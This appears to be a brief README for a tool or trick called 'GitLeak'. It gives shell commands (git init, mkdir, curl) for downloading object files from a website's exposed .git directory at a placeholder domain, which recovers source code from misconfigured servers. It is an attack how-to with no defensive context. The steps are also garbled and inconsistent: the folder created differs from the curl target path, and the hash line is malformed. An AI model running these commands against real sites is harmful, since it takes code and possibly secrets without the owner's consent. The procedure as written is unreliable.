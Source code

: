 # GitLeak
if u found a hash , just use following commands


fULL HASH < XXHASH >


git init 


mkdir .git/objects/4e/ && curl http://[DOMAIN.COM]/.git/objects/XX/HASH -o .git/objects/XX/HASH

